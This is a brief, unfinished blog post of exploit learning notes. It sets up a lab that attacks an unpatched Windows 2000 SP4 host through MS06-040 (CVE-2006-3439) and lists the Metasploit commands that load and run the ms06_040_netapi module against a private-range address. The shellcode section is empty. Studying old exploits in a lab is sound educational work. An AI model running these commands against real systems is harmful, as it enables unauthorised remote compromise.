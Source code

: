 ```yaml
---
title: Exploit Learning Notes 005 Metasploit Make ShellCode
description: Metasploit crafting ShellCode
date: 2020-10-20 22:20:00+0800
categories:
    - Exploit
tags:
    - Windows
    - Exploit
---
```


Source: [Moeomu's blog](/zh-cn/posts/exploit-learning-notes-005-metasploit-make-shellcode/)

... Unfinished business (Metasploit old version is really hard to find) ...

## Intrusion into Windows experiment

### Introduction to the experiment

> MS06-040, CVE-2006-3439

| Recommended Environment | Remarks |
|-|-|-|
| Attacking machine system | Kali Linux 2021.1 | |
| Target host system | Windows 2000 SP4 | |
| Patch version | KB921883 | Make sure the target host does not have the patch installed |
| network environment | can ping each other | ensure no firewall interference |

### Command line interface vulnerability testing

- `use exploit/windows/smb/ms06_040_netapi`
- `set rhosts 10.211.55.5`
- `exploit`

## Make ShellCode with MetaSploit

... To be continued...
